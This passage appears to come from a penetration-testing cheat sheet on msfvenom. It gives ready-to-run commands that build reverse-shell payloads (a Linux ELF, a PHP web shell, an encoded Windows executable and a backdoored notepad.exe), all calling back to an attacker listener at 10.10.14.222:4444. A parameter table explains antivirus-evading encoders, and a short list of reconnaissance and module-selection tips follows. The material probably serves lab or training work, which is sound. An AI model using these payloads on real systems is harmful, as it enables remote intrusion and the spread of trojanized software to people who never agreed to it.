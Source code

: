 **Generate Linux Reverse Shell:**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.222 LPORT=4444 -f elf -o shell.elf
```

**Generate PHP Web Shell:**
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.222 LPORT=4444 -f raw -o shell.php
```

### Common Parameters

| Parameter | Description | Example |
|-----------|-------------|---------|
| `-p` | Payload type | `windows/meterpreter/reverse_tcp` |
| `-f` | Output format | `exe`, `elf`, `raw`, `python` |
| `-o` | Output file | `shell.exe` |
| `-e` | Encoder | `x86/shikata_ga_nai` |
| `-i` | Encoding iterations | `3` |
| `-b` | Bad characters | `\x00\x0a\x0d` |

### Advanced MSFVenom Examples

**Encoded Payload:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.222 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded_shell.exe
```

**Custom Template:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.222 LPORT=4444 -x notepad.exe -f exe -o backdoored_notepad.exe
```

## Best Practices

### 1. Reconnaissance First

- Always perform thorough enumeration
- Identify target OS and services
- Understand network topology
- Gather credentials when possible

### 2. Module Selection

- Choose appropriate exploit for target
- Consider payload options
- Understand module limitations
- Test in lab environment first
